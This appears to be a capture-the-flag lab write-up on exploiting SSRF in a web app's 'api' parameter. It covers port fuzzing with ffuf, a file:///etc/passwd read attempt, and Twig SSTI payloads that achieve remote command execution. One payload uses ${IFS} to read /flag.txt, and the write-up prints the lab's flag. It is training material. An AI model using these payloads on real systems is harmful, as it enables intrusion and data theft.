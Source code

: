 ```yaml
---
sticker: lucide//server
---
```

## Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![](Pasted image 20250212154851.png)

Let's begin by checking the page:

![](Pasted image 20250212154913.png)

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![](Pasted image 20250212155010.png)

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs: `["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
    
- For each truck ID, an HTTP request is made to fetch its location.
    

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**:  
    `xhr.open('POST', '/', false)` creates a **synchronous** POST request to the server (`/`).  
    _(Synchronous requests block the UI until completion, which is generally discouraged.)_
    
- **Request Headers**:  
    Sets `Content-Type: application/x-www-form-urlencoded` to send data as form-encoded key-value pairs.
    

---

### **3. Request Handling**

- **POST Data**:  
    Sends the parameter `api=http://truckapi.htb/?id=<TRUCK_ID>` in the request body.
    
    - `encodeURIComponent("=" + truckID)` ensures the `=` and truck ID are URL-safe (e.g., `%3DFusionExpress01`).
        
    - Final URL sent to the server: `http://truckapi.htb/?id=FusionExpress01`.
        
- **Server-Side Behavior**:  
    The server likely acts as a proxy, using the `api` parameter to fetch data from the internal `truckapi.htb` endpoint.  
    _(This could introduce SSRF vulnerabilities if the server doesn’t validate the URL.)_
    

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
    
    - Parses the response as JSON.
        
    - Displays `data['location']` if available, or `data['error']` if an error is present.
        
- **Failure Case**:  
    Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
    

---

### **5. UI Updates**

- Updates the HTML element with `id=truckID` (e.g., `<div id="FusionExpress01">`) to show the location/error.
    

---

### **Key Observations**

- **SSRF Risk**: The server trusts the `api` parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
    
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
    
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
  1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
  2. Server fetches data from `truckapi.htb`
  3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![](Pasted image 20250212160205.png)

We can begin the testing for SSRF.

## SSRF Test
---

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![](Pasted image 20250212160429.png)

It went through, what if we point to a closed port:

![](Pasted image 20250212160546.png)

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.252.66:53014/
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Host: 83.136.252.66:53014
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Error \(7\)
________________________________________________

3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![](Pasted image 20250212161958.png)

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:


```
file:///etc/passwd
```

We get the following:

![](Pasted image 20250212165927.png)

`file` has been disabled, let's test other way.

## SSTI Test
---

We can test SSTI with this simple payload:


```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:


![](Pasted image 20250212170132.png)

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![](Pasted image 20250212170307.png)

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![](Pasted image 20250212170624.png)

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![](Pasted image 20250212170814.png)

